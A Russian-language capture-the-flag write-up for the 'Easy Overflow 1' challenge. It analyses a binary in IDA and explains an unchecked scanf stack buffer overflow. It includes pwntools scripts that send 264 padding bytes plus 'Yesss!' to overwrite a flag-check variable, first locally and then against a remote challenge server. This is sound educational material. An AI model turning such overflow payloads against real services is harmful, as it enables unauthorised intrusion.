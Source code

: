 
# Сайт: forkbomb.ru
# Автор: @mrvos (Vlad Roskov) 
# Задание: Easy Overflow 1
# Сложность: Easy

Плавно подходим к четвертому заданию из серии MicCheck. В задании теперь не получится пропатчить память и сразу же получить флаг ибо мы должны отправлять свой ввод на удаленный сервер. Чтобы это сделать надо воспользоваться библеотекой, которая называется pwntools. 
Традиционно начинаем статически анализировать программу.

#### Статический анализ.

![image](https://github.com/user-attachments/assets/790fd5e8-767c-4a75-8aca-14f7551f1750)

В первом блоке программы заносим адрес строки `dword_4006A4` в переменную `giveflag`. По данному адресу лежит строка `No.` о чем нам любезно подсказывает IDA.

![image](https://github.com/user-attachments/assets/f681879a-c794-4192-beeb-fc25da34f2f0)

Ну и собственно сравнивается строка `giveflag` и `s2` с помощью функции `_strcmp` и прыгает в одну из двух веток: одна выводит "локальный флаг", а другая, что флаг нам не дадут. <br />
![image](https://github.com/user-attachments/assets/1803bb82-fdba-4db0-b016-92a71400d56a)
![image](https://github.com/user-attachments/assets/1477319a-d6b0-4d62-91e7-f1c27221065d)
![image](https://github.com/user-attachments/assets/2289ea6b-c081-42af-b2fb-97b714d7a4c9)

#### Решение

Приступим к решению задачи. У нас есть переменная `word` она занимает в памяти 256 байт и  `giveflag`, который занимает 4 байта. 
Выход за пределы массива не проверяется, а также используется небезопасная функция `scanf`, которая считывает данные пока не встретит нулевой байт. Все эти факторы неплохие условия
для того, чтобы переполнить массив `word` и перезаписать данные на стеке.

Получим информацию о бинарном файле с которым мы работаем:
```py
from pwn import *

p = ELF('./mc4_censored')
```

![image](https://github.com/user-attachments/assets/dd5d7fc8-a415-49a0-9e67-29d2ab92ef75)

Никаких защит не стоит, все замечательно, можно спокойно переполнять. Напишем следующий скрипт на языке python

```py
#!/usr/bin/env python3
from pwn import *


p = process('./mc4_censored')
pause()
p.sendline(b"A"*264 + b"Yesss!")
p.interactive()

```
 Данный скрипт заполняет полностью массив `word` и перезаписывает переменную `giveflag`. Проверим работу скрипта: 
 ![image](https://github.com/user-attachments/assets/e9528abd-343f-4b5f-98d0-9a4f8efaee69)

 Локальный флаг получен. Перепишем скрипт и получим настоящий флаг:
 
```py
#!/usr/bin/env python3
from pwn import *


p = remote('109.233.56.90', 11584)
p.sendline(b"A"*264 + b"Yesss!")
p.interactive()

```

![image](https://github.com/user-attachments/assets/a3bd7f15-37a7-457e-875a-42091c3f2a00)


